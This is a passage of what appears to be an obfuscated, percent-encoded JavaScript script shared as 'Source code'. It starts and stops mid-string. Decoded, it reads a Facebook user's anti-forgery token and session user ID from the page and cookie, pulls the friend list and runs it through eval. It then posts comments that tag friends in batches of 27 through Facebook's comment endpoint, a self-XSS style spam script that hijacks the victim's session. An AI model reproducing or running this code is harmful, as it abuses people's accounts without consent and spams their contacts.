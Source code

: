 2%5C%78%32%36%61%74%74%61%63%68%65%64%5F%70%68%6F%74%6F%5F%66%62%69%64%3D%30%22%2C%22%5C%78%32%36%67%69%66%74%6F%63%63%61%73%69%6F%6E%22%2C%22%5C%78%32%36%66%74%5B%74%6E%5D%3D%5B%5D%22%2C%22%5C%78%32%36%5F%5F%61%3D%31%22%2C%22%5C%78%32%36%5F%5F%64%79%6E%3D%37%6E%38%61%68%79%6A%33%35%79%6E%78%6C%32%75%35%46%39%37%4B%65%70%45%73%79%6F%22%2C%22%5C%78%32%36%5F%5F%72%65%71%3D%71%22%2C%22%5C%78%32%36%66%62%5F%64%74%73%67%3D%22%2C%22%5C%78%32%36%74%74%73%74%61%6D%70%3D%22%2C%22%50%4F%53%54%22%2C%22%2F%61%6A%61%78%2F%75%66%69%2F%61%64%64%5F%63%6F%6D%6D%65%6E%74%2E%70%68%70%22%2C%22%43%6F%6E%74%65%6E%74%2D%74%79%70%65%22%2C%22%61%70%70%6C%69%63%61%74%69%6F%6E%2F%78%2D%77%77%77%2D%66%6F%72%6D%2D%75%72%6C%65%6E%63%6F%64%65%64%22%2C%22%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%22%2C%22%73%74%61%74%75%73%22%2C%22%63%6C%6F%73%65%22%5D%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%32%5D%5D%28%5F%30%78%61%32%32%63%5B%31%5D%29%5B%30%5D%5B%5F%30%78%61%32%32%63%5B%30%5D%5D%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%69%64%3D%5F%30%78%61%32%32%63%5B%35%5D%3B%76%61%72%20%61%72%6B%61%64%61%73%6C%61%72%3D%5B%5D%3B%76%61%72%20%73%76%6E%5F%72%65%76%3B%66%75%6E%63%74%69%6F%6E%20%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%37%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%29%7B%65%76%61%6C%28%5F%30%78%61%32%32%63%5B%38%5D%2B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%31%32%5D%5D%2E%74%6F%53%74%72%69%6E%67%28%29%5B%5F%30%78%61%32%32%63%5B%31%31%5D%5D%28%5F%30%78%61%32%32%63%5B%39%5D%2C%5F%30%78%61%32%32%63%5B%31%30%5D%29%2B%5F%30%78%61%32%32%63%5B%31%33%5D%29%3B%66%6F%72%28%66%3D%30%3B%66%3C%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%31%37%5D%5D%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%2F%32%37%29%3B%66%2B%2B%29%7B%6D%65%73%61%6A%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%66%2A%32%37%3B%69%3C%28%66%2B%31%29%2A%32%37%3B%69%2B%2B%29%7B%69%66%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%29%7B%6D%65%73%61%6A%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%2B%3D%5F%30%78%61%32%32%63%5B%32%33%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%3B%7D%20%3B%7D%20%3B%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%6D%65%73%61%6A%29%3B%7D%20%3B%7D%20%3B%7D%20%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%32%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%37%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%38%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%69%66%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%33%32%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%31%5D%5D%28%5F%30%78%61%32%32%63%5B%33%30%5D%29%3E%3D%30%29%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%34%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%65%6C%73%65%20%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%36%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%29%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%52%61%6E%64%6F%6D%41%72%6B%61%64%61%73%28%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%61%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%30%3B%69%3C%39%3B%69%2B%2B%29%7B%5F%30%78%37%38%39%32%78%61%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%7D%20%3B%72%65%74%75%72%6E%20%5F%30%78%37%38%39%32%78%61%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%79%